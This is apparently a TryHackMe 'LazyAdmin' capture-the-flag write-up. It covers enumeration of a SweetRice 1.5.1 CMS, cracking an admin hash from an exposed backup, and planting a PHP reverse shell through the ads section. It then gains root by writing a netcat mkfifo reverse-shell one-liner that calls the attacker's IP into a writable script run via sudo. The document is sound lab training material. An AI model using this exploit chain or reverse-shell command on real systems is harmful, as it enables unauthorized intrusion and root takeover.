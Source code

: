 
---

## LazyAdmin

IP = `10.10.53.64`

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### banner Grabbing

```
# nc -nv 10.10.53.64 22
(UNKNOWN) [10.10.53.64] 22 (ssh) open
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.8

```

### Gobuster

`gobuster dir -u 10.10.53.64 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

```
/content              (Status: 301) [Size: 312] [--> http://10.10.53.64/content/]
```

`gobuster dir -u 10.10.53.64/content/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 100`

```
/images               (Status: 301) [Size: 319] [--> http://10.10.53.64/content/images/]
/js                   (Status: 301) [Size: 315] [--> http://10.10.53.64/content/js/]
/inc                  (Status: 301) [Size: 316] [--> http://10.10.53.64/content/inc/]
/as                   (Status: 301) [Size: 315] [--> http://10.10.53.64/content/as/]
/_themes              (Status: 301) [Size: 320] [--> http://10.10.53.64/content/_themes/]
/attachment           (Status: 301) [Size: 323] [--> http://10.10.53.64/content/attachment/]
```


### Initial Foothold

version of SweetRice, got from  `http://10.10.53.64/content/inc/lastest.txt`

version : `1.5.1`

```
# searchsploit sweetrice 1.5.1
------------------------------------------------------------- ---------------------------------
 Exploit Title                                               |  Path
------------------------------------------------------------- ---------------------------------
SweetRice 1.5.1 - Arbitrary File Download                    | php/webapps/40698.py
SweetRice 1.5.1 - Arbitrary File Upload                      | php/webapps/40716.py
SweetRice 1.5.1 - Backup Disclosure                          | php/webapps/40718.txt
SweetRice 1.5.1 - Cross-Site Request Forgery                 | php/webapps/40692.html
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Exec | php/webapps/40700.html
------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

need username to do the above exploit.

There is a mysql_backup file in `http://10.10.53.64/content/inc/mysql_backup/`

link - `http://10.10.53.64/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql`

```
14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

there is md5 hash `42f749ade7f9e195bf475f37a44cafcb` in the mysql backup file.
may be mysql password for admin.

cracked!
`42f749ade7f9e195bf475f37a44cafcb` -> `Password123`

user is also mentioned as `manager`

`manager` : `Password123`




for SweetRice 1.5.1 there is PHP code execution vulnerablilty
`SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution`
https://www.exploit-db.com/exploits/40700

from this, we can understand that `In SweetRice CMS Panel In Adding Ads Section SweetRice Allow To Admin Add PHP Codes In Ads File. A CSRF Vulnerabilty In Adding Ads Section Allow To Attacker To Execute PHP Codes On Server`

and the inserted ad can be seen in `inc/ads/filename.php`

insert `php-reverse-shell.php` of PentestMonkey into Ads code section.
`nc -lnvp 9999` in attackers machine

```
# nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.6.101.54] from (UNKNOWN) [10.10.166.241] 37272
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:50:15 up 26 min,  0 users,  load average: 0.00, 0.02, 0.26
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

Got Shell!

**user.txt**

`THM{63e5bce9271952aad1113b6f1ac28a07}`

### Privilege Escalation

```
www-data@THM-Chal:/home/itguy$ ls
Desktop    Downloads  Pictures  Templates  backup.pl         mysql_login.txt
Documents  Music      Public    Videos     examples.desktop  user.txt
```

`cat mysql_login.txt` 

```
rice:randompass
```

`sudo -l`

```
www-data@THM-Chal:/home/itguy$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
www-data@THM-Chal:/home/itguy$
```

```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

```
www-data@THM-Chal:/home/itguy$ ls -la backup.pl
-rw-r--r-x 1 root root 47 Nov 29  2019 backup.pl
```

```
www-data@THM-Chal:/home/itguy$ ls -la /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

we have read, write and execute permission for copy.sh

```
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.6.101.54 9999 >/tmp/ > /etc/copy.sh
```

victim : 
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl


```

Attacker:
```
# nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.6.101.54] from (UNKNOWN) [10.10.166.241] 37276
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Got root!

**root.txt**

`THM{6637f41d0177b6f37cb20d775124699f}`